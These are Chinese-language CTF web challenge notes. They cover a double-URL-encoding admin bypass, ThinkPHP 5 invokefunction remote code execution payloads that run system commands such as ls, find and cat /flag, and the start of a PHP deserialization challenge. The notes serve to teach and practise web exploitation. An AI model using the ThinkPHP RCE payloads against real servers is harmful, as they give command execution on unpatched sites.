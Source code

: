 \---------

## PHP2

搜集目标网站的目录信息
python dirsearch -u [目标网站] -e php

如果没有目录信息

/index.phps 发现残留的文件

<?php
if("admin"===$_GET[id]) {
 echo("<p>not allowed!</p>");
 exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
 echo "<p>Access granted!</p>";
 echo "<p>Key: xxxxxxx </p>";
}
?>

把admin进行2次编码，因为get接收到之后会解码一次
/index.php?id=%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65

## php_rce

```php
index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls

/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name "*flag*"

/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag
```

```php
<?php 

class Demo { 

  private $file = 'index.php';
  //构造函数，传入文件
  public function __construct($file) { 
    $this->file = $file; 
  }
  //析构函数
  function __destruct() { 
    //输出$file代表的文件
    echo @highlight_file($this->file, true); 
  }
  //反序列化的时候执行
  function __wakeup() { 
    if ($this->file != 'index.php') { 
      //the secret is in the fl4g.php
      $this->file = 'index.php'; 
    } 
  } 
```